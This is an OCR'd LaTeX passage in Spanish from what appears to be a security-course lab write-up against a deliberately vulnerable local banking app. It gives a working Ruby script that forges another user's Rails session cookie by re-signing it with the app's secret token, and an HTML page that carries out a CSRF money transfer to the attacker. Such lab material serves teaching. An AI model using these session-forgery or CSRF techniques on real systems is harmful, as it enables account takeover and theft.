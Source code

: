 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}
require 'mechanize'

bitses = '_bitbar_session'
secret_token = '0a5bfbbb62856b9781baa6160ecfd00b359d3ee3752384c2f47ceb45eada62f24ee1cbb6e7b0ae3095f70b0a302a
2d2ba9aadf7bc686a49c8bac27464f9acb08'

a = Mechanize.new
page = a.get 'http://localhost:3000/login'
login = page.forms.first
login['username'] = login['password'] = 'attacker'
a.submit login

cookie = a.cookie_jar.jar['localhost']['/'][bitses].to_s.sub("#{bitses}=", '')
session, key = cookie.split('--')
session = Marshal.load(Base64.decode64(session))
session['logged_in_id'] = 1
session = Base64.encode64(Marshal.dump(session)).split.join
key = OpenSSL::HMAC.hexdigest(OpenSSL::Digest.const_get('SHA1').new, secret_token, session)
cookie = "#{bitses}=#{session}--#{key}"

puts "document.cookie='#{cookie}';"
\end{lstlisting}

Primero nos conectamos a la cuenta del atacante para obtener una cookie. Sacamos dicha cookie y la dividimos en sus dos partes. 
Luego, decodificamos la primera parte con \textit{Marshal} para obtener las propiedades. Cambiamos la propiedad \textit{logged\_in\_id} por
1; id del usuario \textit{user1}. Volvemos a codificar con \textit{Marshar} para obtener una primera parte modificada. Generamos un token 
con la key usada en la web. Esta se encuentra en el archivo \textit{config/initializers/secret\_token.rb}. Al final se une las dos
partes para obtener nuestra cookie modificada que puede ser cambiada mediante la consola del explorador.

\subsection{Cross-Site Request Forgery}
El objetivo del ataque hacer una transacción desde la cuenta de un usuario logeado hacia la cuenta del atacante, mediante una página
html que el usuario abrirá. La principal es que se redireccione al usuario a otra página mientras se hace la transacción sin que el
lo note. El archivo solución es el siguiente:

\begin{lstlisting}
<html>
	<body>
		<script>
			window.location = "http://crypto.stanford.edu/cs155/";
			var req = new XMLHttpRequest();
			var params = "destination_username=attacker&quantity=10";
			req.open("POST","http://localhost:3000/post_transfer",false);
			req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
			req.withCredentials = true;
			req.send(params);
		</script>
	</body>
</html>

\end{lstlisting}
\end{document}

